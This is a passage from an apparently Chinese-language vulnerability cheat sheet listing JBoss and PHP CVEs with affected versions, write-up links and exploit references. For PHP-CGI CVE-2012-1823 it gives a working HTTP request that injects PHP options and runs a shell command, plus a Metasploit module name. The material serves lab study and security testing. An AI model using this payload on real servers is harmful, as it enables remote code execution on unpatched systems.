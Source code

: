 - 影响版本
    - JBOSS 5.0.0 ~ 5.2.2

- POC | Payload | exp
    - [yunxu1/jboss-_CVE-2017-12149](https://github.com/yunxu1/jboss-_CVE-2017-12149)
    - [jreppiks/CVE-2017-12149](https://github.com/jreppiks/CVE-2017-12149)
    - https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-12149

## PHP

**CVE-2012-1823 PHPCGI 远程代码执行漏洞**
- 简介

    5.3.12 之前和 5.4.2 之前的 5.4.x 中的 sapi/cgi/cgi_main.c 在配置为 CGI 脚本（aka php-cgi）时，不能正确处理缺少=（等号）字符的查询字符串 ，它允许远程攻击者通过在查询字符串中放置命令行选项来执行任意代码，这与在"d"情况下缺少跳过某些 php_getopt 有关。

- 影响版本

    - php < 5.3.12
    - php < 5.4.2

- 文章
    - [PHP-CGI远程代码执行漏洞 (CVE-2012-1823) 分析](https://paper.seebug.org/297/)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/php/CVE-2012-1823/

    `http://你的 IP 地址:端口号/index.php?-s` 即爆出源码

    发送如下数据包,可见 Body 中的代码已被执行:
    ```
    POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
    Host: example.com
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
    ```

- MSF Module
    ```
    use exploit/multi/http/php_cgi_arg_injection
    ```

**CVE-2018-19518 PHP imap 远程命令执行漏洞**
- 简介

    php imap 扩展用于在 PHP 中执行邮件收发操作.其 imap_open 函数会调用 rsh 来连接远程 shell,而 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能 (也就是说,在 debian 系列系统中,执行 rsh 命令实际执行的是 ssh 命令) .

    因为 ssh 命令中可以通过设置 -oProxyCommand= 来调用第三方命令,攻击者通过注入注入这个参数,最终将导致命令执行漏洞.

- 影响版本
    - php 5.6.0 ~ 5.6.38
    - php 7.0.0 ~ 7.0.32
    - php 7.1.0 ~ 7.1.24
    - php 7.2.0 ~ 7.2.12
